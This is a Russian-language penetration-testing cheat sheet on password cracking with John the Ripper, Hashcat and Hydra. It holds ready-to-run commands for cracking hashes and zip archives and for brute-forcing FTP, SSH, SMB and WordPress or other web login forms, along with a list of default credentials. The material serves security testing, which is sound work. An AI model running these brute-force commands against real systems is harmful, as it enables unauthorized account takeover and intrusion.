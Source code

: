 ## John the ripper

Имея hash пароля пытается подобрать верный пароль.
Пример:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format={hash format, напримире bcrypt} resultFile.txt
```
### MD5

Пример:
```bash 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```bash
john hash.txt --show
```
### Zip archive
```bash
zip2john archive.zip > arch.hash
john arch.hash -w rockyou.txt
```
### JWT
```bash
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```

---

# Hashcat

## Введение 

**Hashcat** — легендарный взломщик паролей, предназначенный для взлома даже самых сложных паролей. Популярный инструмент позволяет взломать пароль разными способами. В этой статье я покажу, как пользоваться **Hashcat**.

Еще по теме: [Как с помощью документа перехватить хеш NTLMv2-SSP](https://spy-soft.net/intercept-ntlmv2-ssp-hash-and-bruteforce-password/)

Представления паролей в первую очередь связаны с хэш-ключами, такими как **MD5, SHA, WHIRLPOOL, RipeMD, NTMLv1, NTMLv2** и т. д.

**Hashcat** переводит читаемые данные в искаженное состояние (это случайная строка фиксированного размера). Хэши не позволяют кому-либо расшифровать данные с помощью определенного ключа, как это позволяют стандартные протоколы шифрования. **Hashcat** использует предварительно вычисленные словари, радужные таблицы и даже методы брутфорса, чтобы найти эффективный и действенный способ взлома паролей.

Кстати, про использование Hashcat в Windows, мы рассказывали в [этой статье.](https://spy-soft.net/hashcat-windows/)

## Использование

Некоторые из наиболее важных параметров **hashcat** — это `-m` (тип хеша) и `-a` (режим атаки). В общем, нам нужно использовать оба варианта в большинстве попыток взлома паролей при использовании **Hashcat**.

Взлом хэшей:
```bash
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt rockyou.txt
```
Где:
- `-m 0` - тип хеша, который мы взламываем (MD5).
- `-a 0` - атаку по словарю.
- `-o cracked.txt` - выходной файл.
- `target_hashes.txt` - хэши, которые нужно взломать.
- `rockyou.txt` - список паролей.


---

## Hydra

### Введение 

[Hydra](https://github.com/vanhauser-thc/thc-hydra) - это распараллеленый брутфорс паролей к различным сервисам (**FTP, POP3, IMAP, Telnet, HTTP Auth, NNTP, VNC, ICQ, PCNFS, CISCO** и др.) для **UNIX** платформ. С помощью этой утилиты вы можете атаковать несколько сервисов одновременно.

В основе программы лежит модульная структура. С помощью Гидры пароль можно подобрать к более чем 30 протоколам, включая **telnet, ftp, http, https, smb, несколькими СУБД**, и т.д. Кстати, Hydra [брутит и SSH](https://spy-soft.net/bruteforce-ssh-metasploit/), но для этого требуется наличие библиотеки **libssh**. 

### Ключи 

- `-R` – восстановить ранее прерванную сессию Hydra;
- `-S` – использовать SSL для подключения;
- `-s` – указать порт;
- `-l` – использовать логин;
- `-L` – выбирать логины из файла со списком;
- `-p` – использовать пароль;
- `-P` – использовать пароль из файла со списком;
- `-M` – взять список целей из файла;
- `-x` – генератор паролей;
- `-u` – по умолчанию hydra проверяет все пароли для первого логина, эта опция позволяет проверить один пароль для всех логинов;
- `-f` – выйти, если правильный логин/пароль найден;
- `-o` – сохранить результат в файл;
- `-t` – количество потоков для программы;
- `-w` – время между запросами в секундах;
- `-v` – подробный вывод;
- `-V` – выводить тестируемые логины и пароли.
- `4:4:1` - пароль размером четыре символа, состоящий только из цифр. А именно все пароли в диапазоне 0000-9999;
- `4:8:1` - пароль от четырех до восьми символов, только из цифр;
- `4:5:aA1.` - пароль, размером от 4 до 5 символов, состоит из цифр, букв верхнего и нижнего регистра или точки.

### FTP сервер, SSH, SMB

Буду использовать специально уязвимую машину [Metasploitable](https://spy-soft.net/install-metasploitable-virtual-box/). 

Вы можете использовать логины и пароли по умолчанию, содержащиеся в списке` ftp-betterdefaultpasslist.txt`, который входит в набор **SecLists**. Ниже приводится копия всего словаря для брута:
```
anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
```
Не все словари, входящие в набор [SecLists](https://www.kali.org/tools/seclists/ "SecLists"), такие же короткие. Фактически приведенный выше список паролей — один из самых коротких в коллекции **SecLists**, что делает его отличным вариантом для демонстрации брута паролей с помощью **Hydra**. Чем длиннее список, тем больше времени придется брутить.

Запустите Hydra, используя следующую команду, где `192.168.1.101` — это **IP**-адрес целевого сервера (в моем случае —  **Metasploitable**):
```
hydra -C ./ftp-betterdefaultpasslist.txt 192.168.1.101 ftp
```
Пример брутфорса пароля **SSH** на порту **{port}**:
```bash
hydra -l {username} -P {brutList.txt} ssh:{IP}:{port}
```
Брутфорс авторизации по **smb**:
```bash
hydra -L users.txt -P pass.txt {IP} smb -V
```
### Брут внутри формы авторизации

Пример брутфорса пароля внутри формы авторизации на `wordpress/wp-login.php`:
```bash 
hydra -L {username} -p {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```bash
hydra -l {username} -P {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Брутворс формы авторизации на конкретном сайте:
``` bash
hydra -t 5 -V -L UserList -P PasswordList -f [домен] http-post-form -m "/webapps/login/:user_id=§^USER^§&password=§^PASS^§&login=§Login§&action=§login§&new_loc=§§:F=The username or password you typed is incorrect"
```


---
# Взлом Hash-а - hash-identifier
```bash
hash-identifier
HASH: {hash}
```

---

# Другие

Вот еще несколько популярных инструментов для подбора паролей:

[Metasploit](https://github.com/rapid7/metasploit-framework) - это многофункциональный инструмент для тестирования на проникновение, который имеет модули для подбора паролей и поддерживает различные протоколы и сервисы.

[LEGBA](https://github.com/evilsocket/legba) - многопротокольный брутфорсер учетных данных на языке **Rust**.

[Medusa](https://github.com/jmk-foofus/medusa) - еще один инструмент для атаки на пароли, который также поддерживает различные протоколы.

[Ncrack](https://github.com/nmap/ncrack) - инструмент для взлома паролей **SSH**, **RDP**, **FTP** и так далее. Имеет возможность многопоточного сканирования.